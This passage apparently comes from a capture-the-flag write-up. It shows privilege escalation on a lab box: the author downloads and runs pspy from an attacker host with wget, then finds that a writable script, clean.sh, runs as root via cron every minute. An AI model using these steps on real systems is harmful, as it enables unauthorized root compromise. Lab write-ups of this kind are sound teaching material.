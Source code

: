```
<redacted-username>:<redacted-password>
```
# Privilege Escalation
I uploaded and ran linpeas and also manually looking at the contents of the webserver, and found something interesting.
```console
www-data@dmv:/var/www/html$ cd tmp
www-data@dmv:/var/www/html/tmp$ ls
clean.sh
www-data@dmv:/var/www/html/tmp$ cat clean.sh 
rm -rf downloads
```
It looks like something that the user want to do on a regular basics, so he kept the script here and might be running as a cron. So, to check the processes running, I uploaded a pspy binary on the server using the same python HTTP server.

### Pspy
```console
www-data@dmv:/dev/shm$ wget 10.6.31.213/pspy64
--2020-11-25 10:26:05--  http://10.6.31.213/pspy64
Connecting to 10.6.31.213:80... connected.
HTTP request sent, awaiting response... 200 OK
pspy64                                      100%[===========================================================================================>]   2.94M   467KB/s    in 8.5s    

2020-11-25 10:26:14 (355 KB/s) - 'pspy64' saved [3078592/3078592]
www-data@dmv:/dev/shm$ chmod +x pspy64
www-data@dmv:/dev/shm$ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
2020/11/25 10:28:01 CMD: UID=0    PID=1403   | bash /var/www/html/tmp/clean.sh 
2020/11/25 10:28:01 CMD: UID=0    PID=1402   | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh 
2020/11/25 10:28:01 CMD: UID=0    PID=1401   | /usr/sbin/CRON -f 
2020/11/25 10:28:01 CMD: UID=0    PID=1404   | bash /var/www/html/tmp/clean.sh
2020/11/25 10:29:01 CMD: UID=0    PID=1417   | /usr/sbin/CRON -f 
2020/11/25 10:29:01 CMD: UID=0    PID=1419   | bash /var/www/html/tmp/clean.sh 
2020/11/25 10:29:01 CMD: UID=0    PID=1418   | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh 
```
If we check these entries, the file clean.sh is executed as root every minute. So if we can modify that file, we can get code execution on the box as root.
